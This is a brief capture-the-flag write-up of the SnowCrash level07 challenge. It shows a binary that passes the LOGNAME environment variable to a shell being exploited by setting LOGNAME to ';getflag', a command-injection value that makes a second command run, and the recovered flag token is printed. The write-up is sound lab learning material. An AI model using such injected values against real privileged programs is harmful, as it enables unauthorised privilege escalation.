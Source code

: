 This one start with a binary file at the user's home.

The binary is named `level07` and print `level07` when executed.

As a "strange" coincidence this is also the username of this level.

I filter all the `'level07'` string from env variables and receive the following:

```bash
level07@SnowCrash:~$ env | grep level07
USER=level07
MAIL=/var/mail/level07
PWD=/home/user/level07
HOME=/home/user/level07
LOGNAME=level07
```

So I think that I should probably target USER or LOGNAME to get the token.

```bash
# if LOGNAME is used to execute a shell cmd,
# it will now terminate the cmd and run getflag

export LOGNAME=';getflag'
```

As expected, the `level07` bin make use of an env var to display its value and the previous hack is just enough to get the flag.

```bash
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
